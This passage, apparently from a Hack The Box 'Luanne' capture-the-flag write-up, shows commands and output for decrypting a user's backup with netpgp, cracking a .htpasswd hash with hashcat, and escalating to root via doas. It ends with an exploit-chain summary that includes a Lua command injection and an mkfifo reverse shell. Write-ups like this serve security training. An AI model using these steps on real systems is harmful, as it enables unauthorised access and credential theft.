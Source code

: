 ```console
        [--numtries=<attempts>] AND/OR
        [--userid=<userid>] AND/OR
        [--maxmemalloc=<number of bytes>] AND/OR
        [--verbose]
```

- decrypt `devel_backup-2020-09-16.tar.gz.enc`

```console
luanne$ netpgp --decrypt --output=/tmp/outputfile.tar.gz --keyring=/home/r.michaels/.gnupg/secring.gpg /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ gunzip outputfile.tar.gz
luanne$ tar xvf outputfile.tar
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
luanne$ pwd
/tmp/devel-2020-09-16/www
luanne$ cat .htpasswd
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

- get another hash value: `$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.` => crack: `r.michael:littlebear` => doas su to change to root user

```console
└─╼$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
```

```console
luanne$ doas su root
Password:
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

## Exploit Chain

port scan -> two page need authentication -> 9001 with default credential -> enum process info -> /weather dir for 80 port -> path recon -> /weather/forecast -> lua command injection with mkfifo reverse shell -> _httpd shell -> check 80 port service home dir -> htpasswd -> crack to get a username & password -> check processes in this machine -> 3001 local service with -u option -> use cracked credential to enum the content of /~r.michaels/ -> ssh private key -> r.michaels priv shell -> doas enum -> need password -> enum backup and key ring files -> use netpgp to decrypt backup -> crack another hash value -> r.michaels' doas password -> root priv shell
